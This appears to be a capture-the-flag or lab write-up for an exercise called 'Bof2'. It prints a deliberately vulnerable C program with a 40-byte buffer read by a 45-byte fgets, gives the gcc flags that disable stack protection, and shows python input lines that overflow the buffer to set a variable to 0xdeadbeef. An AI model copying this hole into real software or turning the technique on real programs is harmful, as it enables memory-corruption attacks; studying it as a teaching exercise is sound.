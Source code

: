 ## Bof2
Source Code:
```
#include <stdlib.h>
#include <stdio.h>

void main(int argc, char *argv[])
{
  int var;
  int check = 0x04030201;
  char buf[40];

  fgets(buf,45,stdin);

  printf("\n[buf]: %s\n", buf);
  printf("[check] 0x%x\n", check);

  if ((check != 0x04030201) && (check != 0xdeadbeef))
    printf ("\nYou are on the right way!\n");

  if (check == 0xdeadbeef)
   {
     printf("Yeah! You win!\n");
 
   }
}
```
Complie by gcc:
`gcc -g bof2.c -o bof2.out -fno-stack-protector -mpreferred-stack-boundary=2 `
![complie bof2](./imgs/bof2_1.png)
Run program to have output "You are on the right way":
`echo $(python -c "print('a'*41)") | ./bof2.out  `
![you are on right way](./imgs/bof2_2.png)
Run program to have output "Yeah! You win!":
`echo $(python -c "print('a'*40 + '\xef\xbe\xad\xde')") | ./bof2.out`
![you win](./imgs/bof2_3.png)